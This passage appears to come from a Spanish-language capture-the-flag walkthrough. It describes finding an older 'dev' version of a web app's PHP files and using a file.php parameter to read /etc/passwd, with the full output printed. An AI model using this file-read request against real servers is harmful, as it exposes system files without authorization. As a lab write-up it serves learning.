 ```php
<footer style="position: fixed; bottom: 10px; right: 10px; font-size: 0.9em; color: gray;">
    v0.1
</footer>
```

Vemos que en el `file.php` con dicho parametro podremos leer archivo o eso parece, y en el `status.php` es la `v1` osea una version mas antigua del primer archivo `status.php` al que entramos, vamos a comprobar si entramos en el `status.php` de `v1`.

```
URL = http://<IP_VICTIM>/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/status.php
```

Una vez que entremos con `BurpSuite` añadiremos el `Statusid: 1` para que funcione como lo haciamos antes y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-13 111246.png" alt=""><figcaption></figcaption></figure>

Vemos que efectivamente cambian cosas y que es la `v1` por lo que estamos accediendo de forma correcta a los archivos, ahora vamos a probar con el `file.php` de esta forma:

```
URL = http://<IP_VICTIM>/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/file.php?72e22dffd7fa10883a85aa3e0bbbd6d4=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
baluton:x:1001:1001:baluton,,,:/home/baluton:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
```